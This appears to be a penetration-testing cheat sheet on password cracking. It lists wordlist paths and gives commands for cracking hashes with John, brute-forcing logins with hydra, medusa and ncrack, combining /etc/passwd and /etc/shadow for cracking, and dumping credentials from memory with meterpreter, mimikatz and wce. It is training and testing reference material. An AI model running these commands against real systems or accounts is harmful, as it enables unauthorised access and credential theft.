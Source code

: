 ```yaml
---
title: "Password Cracking"
permalink: /pentest/11_Password_Cracking/
toc: true
---
```



#### worlists
- Kali : /usr/share/wordlists
- John and Ripper : /usr/share/John/password.lst
- Metasploit : /usr/share/metasploit-framework/data/wordlists
- Seclists
  - apt install seclists
  - [sec lists](https://github.com/danielmiessler/SecLists/tree/master/Passwords)
  - https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.html
  
  
#### password generation
- Cewl

#### cracking

- hash-identifier 
- john the ripper
  - john --format=raw-sha256 sha256_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
- hashcat
- hydra
  - hydra -L username.txt -P password.txt IP_address ftp -f
- medusa
 - medusa -U username.txt -P password.txt -h IP_address -M module 
- ncrack
 - ncrack -U username.txt-P password.txt IP:service -f -vv


- To crack Linux account
  - /etc/passwd : user info
  - /etc/shadow : shadow hash infor
  - unshadow passwd shadow > hash.txt
  - john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --pot=pass.pot
  
  
 #### password from memory
 - meterpreter : msv 
 - meterpreter : kerberos
 - meterpreter : wdigest
 - meterpreter : load mimikatz
  - mimikatz_command -f samdump::hashes 
  - mimikatz_command -f sekurlsa::searchPasswords
 - wce.exe -w


